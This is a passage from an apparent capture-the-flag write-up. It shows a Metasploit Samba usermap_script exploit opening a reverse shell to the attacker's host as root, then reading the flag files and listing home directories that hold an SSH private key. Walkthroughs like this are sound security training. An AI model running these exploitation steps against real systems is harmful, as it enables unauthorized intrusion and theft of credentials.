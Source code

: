 The stage is set. Let's run it!

```shell-session
[msf](Jobs:0 Agents:0) exploit(multi/samba/usermap_script) >> exploit

[*] Started reverse TCP double handler on 10.10.14.78:1337 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 3Af1GRKylXvb0aCv;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "3Af1GRKylXvb0aCv\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.78:1337 -> 10.129.31.208:39912) at 2022-11-16 21:56:05 +0000

whoami
root
```

Boom 💥 We're in! We're already the root user, so we don't even need to
escalate privileges. Now we just need to find the flags.

# Flags

Now we have root, obtaining the various flags is straightforward:

```shell-session
$ cat /root/root.txt
74626852c89d17e3d435b51c2390b333
$ find /home
/home
/home/service
/home/service/.profile
/home/service/.bashrc
/home/service/.bash_logout
/home/ftp
/home/makis
/home/makis/user.txt
/home/makis/.profile
/home/makis/.sudo_as_admin_successful
/home/makis/.bash_history
/home/makis/.bashrc
/home/makis/.bash_logout
/home/user
/home/user/.ssh
/home/user/.ssh/id_dsa.pub
/home/user/.ssh/id_dsa
/home/user/.profile
/home/user/.bash_history
/home/user/.bashrc
/home/user/.bash_logout
$ cat /home/makis/user.txt
94a567fa12225e2394a1d4c1b0fcce17
```
